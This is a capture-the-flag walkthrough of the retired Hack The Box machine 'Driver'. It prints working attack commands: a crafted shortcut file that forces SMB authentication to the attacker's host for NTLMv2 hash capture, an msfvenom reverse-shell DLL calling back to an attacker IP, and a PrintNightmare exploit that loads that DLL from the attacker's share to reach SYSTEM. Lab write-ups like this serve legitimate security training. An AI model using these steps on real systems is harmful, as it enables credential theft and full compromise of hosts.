


# Hack The Box - Driver



Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Driver**. This machine starts with a clever file-upload trick that forces authentication and leaks an NTLMv2 hash, then moves to an authenticated Windows shell. From there, a PrintNightmare abuse path leads to `NT AUTHORITY\SYSTEM`.

## Reconnaissance

I started with a full Nmap scan to identify exposed services.

```bash
sudo nmap -sC -sV -oA ./nmap/10.10.11.106 10.10.11.106
```

The scan showed three open ports:

```text
80/tcp  open  http         Microsoft IIS httpd 10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows
```

The HTTP service identified itself as an **MFP Firmware Update Center**, which was the key clue for the initial foothold.

## Initial Access

### Web Enumeration

The site accepted the default credentials:

```text
admin / admin
```



Only the Home and Firmware Updates sections were functional. Since the box was exposing SMB signing as disabled, I suspected an SMB relay-style attack would work if I could force the target to authenticate to my host.

### Crafted File Upload

I created a malicious `.csf` file to make the test team machine reach out to my SMB share:

```ini
[Shell]
Command=2
IconFile=\\10.10.14.11\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

I then started a listener with responder for NTLM capture using a responder-style setup. Once the file was uploaded and opened, the machine authenticated back to me and exposed Tony’s NTLMv2 hash.

```bash
responder -I tun0 
```


### Hash Cracking

I cracked the hash with hashcat and recovered the password:

```text
liltony
```

That let me log in with Evil-WinRM as `tony` and obtain the user flag.

```bash
evil-winrm -u tony -p liltony -i 10.10.11.106
```

## Privilege Escalation

### Print Spooler Discovery

While enumerating running processes, I found the **Print Spooler** service running as `spoolsv`. That suggested the machine was vulnerable to **PrintNightmare**.

### PrintNightmare

To exploit it, I used the public CVE-2021-1675 / CVE-2021-34527 https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py path, which requires a specially prepared DLL payload and an SMB share hosting it.

I generated a reverse shell DLL:

```bash
msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4444 -o shell.dll
```

Then I shared it over SMB and launched the exploit against the print spooler using Tony’s credentials.

```bash
sudo python3 printnightmare/CVE-2021-1675.py tony:liltony@10.10.11.106 '\\10.10.14.11\smb\shell.dll'
```

The exploit succeeded and gave me a shell as:

```text
nt authority\system
```

From there I navigated to the Administrator desktop and read `root.txt`.

## Attack Path

- **Scan the host** — identify HTTP, RPC, and SMB.
- **Find the firmware portal** — discover the MFP update center.
- **Use default credentials** — access the upload area.
- **Trigger authentication** — upload a crafted `.csf` file to force SMB auth.
- **Capture the NTLMv2 hash** — harvest Tony’s credentials.
- **Crack the hash** — recover `liltony`.
- **Log in with Evil-WinRM** — gain a user shell as `tony`.
- **Exploit PrintNightmare** — abuse the print spooler with a malicious DLL.
- **Escalate to SYSTEM** — read the root flag as `NT AUTHORITY\SYSTEM`.
